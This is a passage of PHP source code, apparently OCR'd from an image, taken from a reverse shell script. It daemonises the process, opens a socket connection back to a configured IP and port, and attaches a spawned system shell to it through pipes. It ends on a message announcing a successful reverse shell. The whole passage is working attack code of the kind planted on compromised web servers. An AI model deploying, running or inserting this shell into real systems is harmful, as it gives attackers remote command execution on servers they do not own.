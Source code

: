 ```
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");
```